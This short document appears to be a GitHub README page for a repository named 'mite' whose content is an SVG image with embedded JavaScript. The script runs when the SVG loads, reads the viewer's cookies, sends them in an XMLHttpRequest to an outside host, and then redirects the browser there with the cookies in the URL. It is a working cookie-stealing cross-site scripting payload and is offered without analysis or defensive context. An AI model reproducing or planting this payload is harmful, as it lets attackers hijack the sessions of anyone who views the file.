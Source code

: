# mite


<svg xmlns="http://www.w3.org/1999/svg">
  <script>
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (xhttp.readyState == 4 &amp;&amp; xhttp.status == 200) {
     document.getElementById("demo").innerHTML = xhttp.responseText;
    }
  };

  cookies = document.cookie;
  urli = "https://mite.now.sh/README.md";
  fullurl = urli + "?" + cookies;
  xhttp.open("GET", fullurl, true);
  xhttp.send();
} 
loadDoc();
window.location="http://mite.now.sh/README.md?cook="+document.cookie;
  </script>

</svg>

